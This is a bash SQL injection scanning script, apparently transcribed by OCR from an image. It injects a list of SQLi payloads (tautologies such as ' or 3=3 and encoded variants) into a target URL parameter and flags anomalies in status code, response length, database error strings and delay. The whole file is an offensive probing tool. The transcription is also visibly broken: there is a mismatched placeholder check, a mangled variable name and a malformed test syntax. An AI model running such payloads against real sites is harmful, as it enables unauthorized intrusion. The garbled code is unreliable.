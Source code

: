 #!/bin/bash

# Colors for terminal output

RED='\033[0;31m'
GREEN='\033[0;32m'
YELLOW='\033[1;33m'
CYAN='\033[0;36m'
PURPLE='\033[0;35m'
BLUE='\033[0;34m'
NC='\033[0m' # No Color

# Signal handling for clean exit

trap 'echo -e "\n${RED}[!] Interrupted. Exiting...${NC}"; exit 1' SIGINT

# Base URL input with proper guidance

echo ""
echo -e "${YELLOW}[?]${NC} Enter base URL (replace parameter value with _ )"
echo -e "${CYAN}    Example:${NC} http://target.com/page.php?id=_"
read -rp ">> " BASE_URL

if [["$BASE_URL" != *"*"*]]; then
echo -e "${RED}[X] Base URL must contain '*' as injection point.${NC}"
exit 1
fi

# Timeouts and output

TIMEOUT=5
OUTPUT*FILE="sqli_results*$(date +%Y%m%d\_%H%M%S).txt"

# Payloads (modify as needed)

PAYLOADS=(
"%28" # (
"%29" # )
"%26" # &
"%21" # !
"' or ''='"
"' or 3=3"
" or 3=3 --"
"%C0%80%27%C0%80%C0%80%C0%80O%C0%82R%C0%80%C0%801%C0%80%C0%A11"
")%20or%20('x'='x"
"%20or%201=1"
)

# URL-encode function

urlencode() {
local raw="$1"
    local encoded=""
    for ((i=0; i<${#raw}; i++)); do
c=${raw:$i:1}
case "$c" in
            [a-zA-Z0-9.~_-]) encoded+="$c" ;;
\*) printf -v encoded '%s%%%02X' "$encoded" "'$c" ;;
esac
done
echo "$encoded"
}

# Baseline request

BASELINE_URL="${BASE_URL//\*/}"
BASELINE_RESPONSE=$(curl -s --max-time "$TIMEOUT" "$BASELINE_URL")
BASELINE_CODE=$(curl -s -o /dev/null -w "%{http_code}" --max-time "$TIMEOUT" "$BASELINE_URL")
BASELINE_LENGTH=${#BASELINE_RESPONSE}

echo -e "${CYAN}[*] Baseline URL: $BASELINE_URL"
echo -e "[*] HTTP Code: $BASELINE_CODE, Length: $BASELINE_LENGTH${NC}"
echo ""

# Test function

test_payload() {
local payload="$1"
local index="$2"
local total="$3"

    # URL encode payload
    local encoded_payload=$(urlencode "$payload")
    local test_url="${BASE_URL/\*/$encoded_payload}"

    # Start time
    local start_time=$(date +%s.%N)

    # Perform request
    local response=$(curl -s --max-time "$TIMEOUT" "$test_url" 2>/dev/null)
    local http_code=$(curl -s --max-time "$TIMEOUT" -o /dev/null -w "%{http_code}" "$test_url" 2>/dev/null)

    # Duration
    local end_time=$(date +%s.%N)
    local duration=$(echo "$end_time - $start_time" | bc -l 2>/dev/null || echo "0")

    local response_length=${#response}
    local length_diff=$((response_length - BASELINE_LENGTH))
    local status="NORMAL"
    local color="${NC}"

    # Anomaly detection
    if [[ "$http_code" != "$BASELINE_CODE" ]]; then
        status="HTTP_CHANGE"
        color="${YELLOW}"
    elif [[ $length_diff -gt 50 ]] || [[ $length_diff -lt -50 ]]; then
        status="LENGTH_CHANGE"
        color="${PURPLE}"
    elif echo "$response" | grep -Ei "error|warning|mysql|oracle|postgresql|syntax|sql" >/dev/null; then
        status="ERROR_DETECTED"
        color="${RED}"
    elif [[ $(echo "$duration > 3" | bc -l 2>/dev/null || echo 0) -eq 1 ]]; then
        status="TIME_DELAY"
        color="${GREEN}"
    fi

    # Progress display
    local progress=$((index * 100 / total))
    printf "\r${CYAN}[Progress: %3d%%]${NC} Testing payload: %s\n" "$progress" "$payload"
    echo -e "${BLUE}[*]${NC} Test URL: ${test_url}"

    # Output anomaly
    if [[ "$status" != "NORMAL" ]]; then
        printf "${color}[%s]${NC} Payload: %s\n" "$status" "$payload"
        echo -e "  └─ ${YELLOW}URL: ${test_url}${NC}"
        printf "  └─ HTTP Code: %s | Length: %d (%+d) | Time: %.2fs\n" "$http_code" "$response_length" "$length_diff" "$duration"

        {
            echo "[$status] Payload: $payload"
            echo "  Full URL: $test_url"
            echo "  HTTP Code: $http_code"
            echo "  Response Length: $response_length bytes (Δ$length_diff)"
            echo "  Response Time: ${duration}s"
            echo "  Response Snippet: ${response:0:200}..."
            echo ""
        } >> "$OUTPUT_FILE"
    fi

}

# Main execution

total_payloads=${#PAYLOADS[@]}
for i in "${!PAYLOADS[@]}"; do
test_payload "${PAYLOADS[$i]}" "$((i+1))" "$total_payloads"
done

echo -e "\n${GREEN}[✓] Testing complete.${NC} Results saved to ${YELLOW}${OUTPUT_FILE}${NC}"
